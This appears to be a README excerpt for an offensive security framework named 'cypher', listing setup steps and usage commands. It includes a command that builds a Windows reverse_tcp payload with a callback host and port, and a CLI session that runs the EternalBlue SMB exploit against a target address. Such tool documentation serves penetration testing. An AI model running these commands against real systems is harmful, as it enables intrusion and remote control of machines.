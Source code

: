 3. **Set up React frontend**
   ```bash
   npm install
   ```

### Running the Framework

#### Web Interface (Recommended)
```bash
# Start backend
cd backend
python run.py

# In another terminal, start frontend
npm run dev
```

#### CLI Interface
```bash
cd backend
python main.py --mode cli
```

#### Payload Generation
```bash
cd backend
python main.py --mode build --os windows --arch x64 --type reverse_tcp --lhost 192.168.1.100 --lport 4444
```

## Usage Examples

### Web Interface
1. Navigate to `http://localhost:3000`
2. Use the Dashboard to monitor activities
3. Scanner module for target discovery
4. Exploit Manager for vulnerability exploitation
5. Session Manager for post-exploitation
6. Payload Builder for custom payloads

### CLI Interface
```bash
# Show available modules
cypher > show modules

# Use an exploit module
cypher > use exploit/windows/smb/ms17_010_eternalblue
cypher (ms17_010_eternalblue) > set RHOSTS 192.168.1.100
cypher (ms17_010_eternalblue) > run

# Interact with sessions
cypher > sessions -i sess_001
```
